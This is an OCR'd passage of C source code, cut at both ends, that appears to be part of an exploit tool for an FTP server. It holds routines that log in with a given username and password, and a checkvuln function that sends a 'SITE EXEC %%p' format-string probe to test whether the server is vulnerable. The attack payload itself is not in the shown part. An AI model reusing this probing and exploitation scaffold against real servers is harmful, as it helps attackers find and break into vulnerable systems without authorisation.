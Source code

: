         fprintf(cout, "%s", buf2);

    #ifdef DEBUG
        fprintf(stderr, "--> ");
        fprintf(stderr, "%s", buf2);
        fputc('\n', stderr);
    #endif

        fputs("\r\n", cout);
        (void)fflush(cout);
        return 0;
    }

    int getreply(v)
    int v;
    {
        if (!(fgets(recvbuf, BUFSIZ, cin)))
            return -1;

        if (v)
            fprintf(stderr, "<-- %s", recvbuf);

        return 0;
    }

    int logintoftp(login, passwd)
    char *login, *passwd;
    {
        do
            repl;
        while (strncmp(recvbuf, "220 ", 4));

        if ((command("USER %s", login)) < 0)
            return -1;

        repl;

        if (strncmp(recvbuf, "331", 3))
        {
            puts(recvbuf);
            return -1;
        }

        if ((command("PASS %s", passwd) < 0))
            return -1;

        do
            repl;
        while (strncmp(recvbuf, "230 ", 4));

        return 0;
    }

    int checkvuln(void)
    {
        command("SITE EXEC %%p");
        repl;
